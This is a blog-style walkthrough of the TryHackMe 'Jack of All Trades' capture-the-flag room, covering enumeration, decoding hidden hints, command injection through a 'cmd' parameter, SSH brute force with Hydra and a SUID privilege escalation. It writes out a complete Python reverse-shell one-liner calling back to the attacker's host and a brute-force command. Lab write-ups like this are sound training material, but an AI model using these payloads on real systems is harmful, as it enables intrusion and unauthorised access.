

# Jack of All Trades CTF [TryHackMe](https://tryhackme.com/room/jackofalltrades)

10th July 2021

## Index

- [Enumeration](#enumeration)
- [Gaining access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

---


---

```bash
export IP=10.10.152.45
```

---

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports:
```
22 http
80 ssh
```

The ports have been swapped - meaning we have been given the headache of reconfiguring firefox to allow an http requests from port 22. This [resource](https://support.mozilla.org/en-US/questions/1083282) helped in case you're facing difficulty yourself.

Moving on to the website, we see its a simple static website but navigating the source code of the page yields some interesting information.


It is quickly evident that this is base64 encoded (notice the two equal signs at the end) and [decoding](https://gchq.github.io/CyberChef/) yields an interesting note.


Navigating to `recovery.php` again yields an interesting result in the comments of the page.

Time to decode it! I first decode it from bsae32 which seems to yield hex characters. So I convert it from hex to ascii and it is becoming evident that I am on the right path as I have some sort of rotation cipher. It's rot13! And we are given the following hint...



Using the passphrase we got earlier, I tried decoding the steg image, which indicated I was on the right path but this was the wrong picture. Trying again with the jackinthebox picture...I failed but that left one last picture to be decoded: the header image.
Decoding that was a success!

We now have a username and password which which we can log into the `recovery.php` site.

---

### Gaining access

Going onto the page, there is the solitary test that we must `GET a 'cmd' and future-jack will run it for you`. So we can pass through commands using.

`http://<<IP>>:22/nnxhweOV/index.php?cmd=whoami`


Constructing a python reverse shell after checking which python version is applicable:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<My IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And now we have access to the box!

Looking in the home directory, we notice a file named `jacks_password_list`...
Hydra time:

```bash
$ hydra -l jack -P password_list.txt -t 64 ssh://$IP:80
```

Yields the result: `jack:ITMJpGGIqg1jn?>@`

Now that we have access to the box we can get the first flag...or not quite yet since its in jpg format...
Thankfully the flag is written in the image so we don't have to do any fancy decoding process.

### Priviledge Escalation

Now using linpeas to quickly enumerate the system for weaknesses, we notice that `strings` has its SUID bit set...

I first checked if it was possible to use it to escalate priviledges but in the end I decided to just run:

```bash
$ strings /root/root.txt
```


(The root flag has been cropped out of the screenshot)

To snag the root flag! And we are _**complete!**_
I really enjoyed this room despite it being a fairly simple one. Highly recommended for a quick pep-up if needed!


